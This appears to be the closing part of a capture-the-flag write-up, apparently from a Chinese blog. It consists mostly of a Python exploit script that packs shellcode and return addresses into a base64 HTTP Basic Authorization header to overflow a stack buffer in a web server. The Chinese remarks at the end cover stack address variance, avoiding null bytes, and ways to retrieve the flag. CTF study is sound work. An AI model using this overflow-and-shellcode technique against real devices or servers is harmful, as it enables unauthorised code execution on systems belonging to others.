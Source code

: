 ```python
	buf += b"\x06\x28\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf"
	buf += b"\xaf\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf"
	buf += b"\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf\xfc"
	buf += b"\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24\x0c\x01"
	buf += b"\x01\x01"
	pl = "AAAA"+"AAAA"+"BBBB"+p32(0x407ffea8)+p32(0x407ffa94)+p32(0x004a8e98)
	data=buf.ljust(0x400,"A")+ pl+ ":"
	payload = base64.b64encode(data)
	print(payload)
	package = """GET /www/index.html HTTP/1.1\r
Host: 192.168.100.102:38888\r
Authorization: Basic %s\r
Upgrade-Insecure-Requests: 1\r
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36\r
Connection: close\r

"""  % payload
	log.info("sending payload")
	log.info(package[:0x100])

	sh.send(package.encode())
	res = sh.recv()
	log.info(res)
	return

if __name__=="__main__":
	exp("127.0.0.1",38888)

"""

"""
```
因为没打过远程所以不知道远程环境，测试在不同的机器上栈地址不一样，不过也可以将shellcode放在一个全局变量里去执行，需要注意的是如果放在base64里面，那么shellcode中不能含有空字符`\x00` 这里我将其替换为了`\x01`，不影响shellcode的最终执行，不出网则需要修改shellcode来执行系统命令或者将flag写入网站文件中进行下载，这里不做尝试了